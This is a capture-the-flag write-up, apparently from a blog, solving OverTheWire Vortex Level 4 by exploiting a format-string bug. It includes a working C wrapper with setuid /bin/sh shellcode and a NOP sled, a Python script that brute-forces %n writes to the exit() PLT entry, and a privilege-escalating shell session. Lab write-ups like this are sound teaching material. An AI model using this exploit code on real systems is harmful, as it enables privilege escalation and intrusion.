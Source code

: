 ```yaml
---
title:  "[CTF] OverTheWire Vortex Level 4"
---
```


![Logo](/assets/images/vortex4.png)

## Context

[This level](http://overthewire.org/wargames/vortex/vortex4.html) looks like a simple 3 lines program, containing a common issue - format string vulnerability:
```c
int main(int argc, char **argv)
{
 if(argc) exit(0);
 printf(argv[3]);
 exit(EXIT_FAILURE);
}
```

## 1. Bypass the check for arguments count
The program exits if the _`argc`_ variable is different than 0. _`argc`_ represents the length of _`argv`_ array, which has on the first position the program name (the name appearing on top and like utilities, for example). So _`argc`_ is always >=1.
But If we know how arguments and environment variables are passed to the main function when executing the binary,  we can bypass the verification and also pass something meaningful to _`printf`_ in _`argv[3]`_ argument.  The stack looks like this:
```
| argc | argv[0] | argv[1] ... |argv[argc-1]| NULL |env[0]|...|env[n]|NULL|
```

Where the first _`NULL`_ indicates the end of the _`argv`_ array, and the second one the end of the environment variables array. So if we pass _`NULL`_ as the _`argv`_ array, when the program tries to access _`argv[3]`_, it will in fact access _`env[2]`_, because the stack would look like this (_`argv[0]`_ points to the _`NULL`_ byte):
```
| 0 | NULL | env[0] | env[1] | env[2] | ...
```

In Python I couldn't call one of the _`exec`_ functions with _`argv`_ set to _`NULL`_, so I've used another method:
```c
char exe[] = "/vortex/vortex4";
 
char* argv[] = { NULL }; 
char* env[] = {"env0", "env1", "TEST", NULL};
 
execve(exe, argv, env);
```

## 2.  Pass the format string attack into an environment variable
We have to find out the approximate location of the environment variables in the memory. The Vortex labs machine has ASLR disabled. We can test with and without ASLR to see the variation of the environment variables' address, using the following simple program:
```c
/* 
 * Test program to find the location of envirnment variables on stack.
 *  - test with/without ASLR
 * 
 * To disable ASLR: 
 * echo 0 > /proc/sys/kernel/randomize_va_space
 * 
 * To enable ASLR:
 * echo 2 > /proc/sys/kernel/randomize_va_space
 * 
 */
 
#include <stdio .h>
 
extern char **environ;
 
/* Return the current stack pointer */
unsigned long find_esp(void){
 // Copy stack pointer into EAX
    __asm__("mov %esp, %eax");
     
    // Return value of the function is in EAX
}
 
int  main() {
 char **env = NULL;
  
    for (env = environ; *env; ++env)
        printf("%p:\t%s\n", env, *env);
 
    unsigned long p = find_esp(); 
    printf ("Current stack pointer: Ox%lx\n" , p) ;
         
    return 0;
}
```

## 3. Redirect program flow
We decide an address to overwrite to change the flow of the program. We can use the same trick as in the previous level: replace the address of _`exit()`_ function in _`.plt`_, which is called at the end of the program. We find it by searching relocations sections in the binary:
```bash
vortex4@melissa:/vortex$ readelf -r ./vortex4
[..]
Relocation section '.rel.plt' at offset 0x294 contains 4 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a000  00000107 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a004  00000207 R_386_JUMP_SLOT   00000000   __libc_start_main
0804a008  00000307 R_386_JUMP_SLOT   00000000   printf
0804a00c  00000407 R_386_JUMP_SLOT   00000000   exit
```

## 4.Shellcode
We'll place a shellcode (I've used the same 32 bytes I've used in the previous level, _`setuid + execve`_) in  the environment variable, with a big NOP sled before (I've used 500 bytes). In the format string before, try to overwrite the address we found above, _`0x0804a00c`_ (which I've actually replaced in 4 bytes: _`0x0804a00c`_, _`0x0804a00d`_, _`0x0804a00e`_, _`0x0804a00f`_. 

This was actually the hardest part. I've made a Python wrapper over the C wrapper containing the _`execve`_ instruction, that passes and brute-forces different format strings.

A good exercise to test the vulnerability is to first try to read memory (using _`%x`_ or _`%s`_ instead of _`%n`_ for writing), to find the actual position of the format string on the stack. I actually found that I needed 106 bytes to get to the format string on the stack. A trick that can be used here: direct parameter access in printf ($), detailed in the [Single Unix Specification ](http://pubs.opengroup.org/onlinepubs/7908799/xsh/fprintf.html). For me, I could access the format string with the following parameter:
```bash
fmt = "AAAABBBBCCCCDDDD..." + "%106$x%107$x%108$x%109$x"
```
I've adjusted it with fillers ('.'), and tuned the offset until reach the correct one, 106. The Python brute-forcing script:
```python
import subprocess
 
''' 
Script to pass the format string and address to be overwritten to
the vortex 4 wrapper binary
'''
 
# 4 bytes to be modified (address of exit() in .plt - 0x0804a00c)
addr =  "\x0c\xa0\x04\x08" + \
        "\x0d\xa0\x04\x08" + \
        "\x0e\xa0\x04\x08" + \
        "\x0f\xa0\x04\x08"
 
# Read it, after many trial and errors
#fmt = "AAAABBBBCCCCDDDD..." + "%106$x%107$x%108$x%109$x"
 
for i in range(1, 255):
        for j in range(1, 255):
                fmt = addr + "...." + \
                "%106$n%5$0" + str(i) + "d" + \
                "%107$n%5$0" + str(j) + "d" + \
                "%108$n" + \
                "%109$n"
                print "%d %d fmt: %s: " % (i, j, fmt)
                p = subprocess.Popen(['/tmp/myl4', fmt])
                 
                p.wait()
                # Ctrl-D to continue
```

And the C wrapper with _`execve`_ over vortex4 binary:
```c
/*
 * Wrapper over vortex 4 binary: 
 *  - byapss first argc check
 *  - pass shellcode in environment variable
 *  - receive format string from python wrapper (.. easier) 
 */
 
#include <stdio .h>
#include <string .h>
 
/* 32 bytes setuid(0) + execve("/bin/sh",["/bin/sh",NULL]); */
char shellcode[] = "\x6a\x17\x58\x31\xdb\xcd\x80\x31\xd2\x6a\x0b\x58\x52"
        "\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53"
        "\x89\xe1\xcd\x80";
 
char padding[500];
char NOP = '\x90';
int nops = 500;
 
int main(int argc, char **args) {
 char exe[] = "/vortex/vortex4";
 char sh[600] = {0};
  
 // Fill with lots of NOPs to make sure we reach the shellcode
 memset(padding, NOP, nops);
  
 memcpy(sh, padding, nops);
 memcpy(sh+nops, shellcode, strlen(shellcode));
  
 // argc wil be 0, because argv[0] is not set
 char* argv[] = { NULL }; 
 char* env[] = {"env0", "env1", args[1], sh, NULL};
 
 execve(exe, argv, env);
  
 return 0;
}
```

## 5. Putting pieces together: 
```bash
vortex4@melissa:/tmp$ vim myl4.c
vortex4@melissa:/tmp$ vim myl4.py
vortex4@melissa:/tmp$ gcc -o myl4 myl4.c
vortex4@melissa:/tmp$ python myl4.py
[..]
202 33 fmt: 
���....%106$n%5$0202d%107$n%5$033d%108$n%109$n: 
$ id
uid=5004(vortex4) gid=5004(vortex4) euid=5005(vortex5) groups=5005(vortex5),5004(vortex4)
$ cat /etc/vortex_pass/vortex5
*****
```
